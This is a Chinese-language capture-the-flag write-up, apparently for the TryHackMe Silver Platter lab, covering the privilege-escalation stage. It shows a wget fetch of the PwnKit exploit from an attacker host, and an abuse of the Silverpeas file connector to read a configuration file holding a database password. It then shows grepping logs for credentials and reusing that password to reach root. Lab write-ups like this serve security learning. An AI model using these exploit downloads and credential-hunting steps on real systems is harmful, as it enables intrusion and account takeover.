/proc/3126/fd
/proc/3126/map_files
/sys/fs/cgroup/user.slice/user-1001.slice/user@1001.service
/sys/fs/cgroup/user.slice/user-1001.slice/user@1001.service/app.slice
/sys/fs/cgroup/user.slice/user-1001.slice/user@1001.service/app.slice/dbus.socket
/sys/fs/cgroup/user.slice/user-1001.slice/user@1001.service/init.scope
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/run/user/1001/systemd/generator.late
/run/user/1001/systemd/generator.late/xdg-desktop-autostart.target.wants
/run/user/1001/systemd/units
/run/user/1001/systemd/inaccessible
/run/screen
/run/cloud-init/tmp
/run/lock
```

下載 POC  
給執行權限  
卻發現執行失敗
```bash
tim@ip-10-10-93-45:/tmp$ wget 10.4.11.38:666/PwnKit
--2025-10-30 02:25:03--  http://10.4.11.38:666/PwnKit
Connecting to 10.4.11.38:666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit             100%[================>]  17.62K  29.4KB/s    in 0.6s    

2025-10-30 02:25:05 (29.4 KB/s) - ‘PwnKit’ saved [18040/18040]

tim@ip-10-10-93-45:/tmp$ chmod +x PwnKit 
tim@ip-10-10-93-45:/tmp$ ls -la PwnKit 
-rwxrwxr-x 1 tim tim 18040 Oct 27 03:31 PwnKit
tim@ip-10-10-93-45:/tmp$ ./PwnKit 
Segmentation fault (core dumped)
```

詢問 AI 後推測 `0.105-33` 後綴的 `-33` 已修補 `CVE-2021-4034` 漏洞
```bash
tim@ip-10-10-93-45:/tmp$ apt-cache policy policykit-1
policykit-1:
  Installed: 0.105-33
  Candidate: 0.105-33
  Version table:
 *** 0.105-33 500
        500 http://eu-west-1.ec2.archive.ubuntu.com/ubuntu jammy/main amd64 Packages
        100 /var/lib/dpkg/status
```

換個方法

確認到還有其他 user
```bash
tim@ip-10-10-93-45:/tmp$ cat /etc/passwd | grep /home
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
```

透過 `Manager` 找到可以調整語言的地方
改登入 `SilverAdmin` 調整成英文
> 但發現只有部分改成英文 QQ


### Silvercrawler 取得 conf
照著 [writeup](https://github.com/injcristianrojas/writeups/tree/main/thm/20250110_silverplatter) 的做法  
1. 以 `SilverAdmin`  登入
2. `Administration` > `Créer un espace` (Create a space)
3. `name (Nom)`給個名字, 點擊 `Valider` (Validate)
4. add an application ("Ajouter une application")
5. `Connecteurs` (Connectors) >  `Silvercrawler`:
6. application 起個名字 (i.e., testccc)
7. `Accès public` 打勾, `Répertoire de base` 輸入 `/` >  `Valider` 確認
8. 點擊 `Accéder à l'espace`
9. 選擇剛剛建立的 `Silvercrawler` (testccc)
10. `/opt/silverpeas/configuration` 下載 `config.properties` 



發現一組帳號密碼
```bash
DB_SERVERTYPE = POSTGRESQL
DB_SERVER = database
DB_NAME = Silverpeas
DB_USER = silverpeas
DB_PASSWORD = _Z...3/
```
嘗試連接 `POSTGRESQL` 
```bash
tim@ip-10-10-93-45:/tmp$ psql -h database -U silverpeas -d Silverpeas
Command 'psql' not found, but can be installed with:
apt install postgresql-client-common
tim@ip-10-10-93-45:/tmp$ apt install postgresql-client-common
E: Could not open lock file /var/lib/dpkg/lock-frontend - open (13: Permission denied)
E: Unable to acquire the dpkg frontend lock (/var/lib/dpkg/lock-frontend), are you root?
tim@ip-10-10-93-45:/tmp$ sudo apt install postgresql-client-common
[sudo] password for tim: 
tim is not in the sudoers file.  This incident will be reported.
```
沒連線工具，也沒權限安裝
嘗試用 `silverpeas` 登入 ssh 失敗
改用 `tyler` 配此密碼 ssh 竟然成功登入

### 掃描有 `tyler` 的檔案
在嘗試另一個方法  
參考 [writeup](https://medium.com/@The_Hiker/silver-platter-tryhackme-walkthrough-thehiker-1dd6a014f3b4)   
直接掃描有 `tyler` 的檔案  
發現一組帳密
```bash
tim@ip-10-10-93-45:/tmp$ grep -R -I 'tyler' /var /www/html /opt /etc 2>/dev/null
...
/var/log/auth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Z...3/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
...
```

## root.txt
```bash
tim@ip-10-10-93-45:/tmp$ su tyler
Password: 
tyler@ip-10-10-93-45:/tmp$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
tyler@ip-10-10-93-45:/tmp$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-10-93-45:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on ip-10-10-93-45:
    (ALL : ALL) ALL
tyler@ip-10-10-93-45:/tmp$ sudo su
[sudo] password for tyler: 
root@ip-10-10-93-45:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-93-45:/tmp# cat /root/root.txt 
THM{09...f6}
```


## 參考
- https://medium.com/@The_Hiker/silver-platter-tryhackme-walkthrough-thehiker-1dd6a014f3b4
- https://github.com/injcristianrojas/writeups/tree/main/thm/20250110_silverplatter

## Q&A
- [gobuster-ffuf 哪個快](QA-gobuster-ffuf-fast.md)
- [wordlist有少怎辦](QA-wordlist.md)
- [grep 用法](QA-grep.md)
- [xargs是啥](QA-xargs.md)
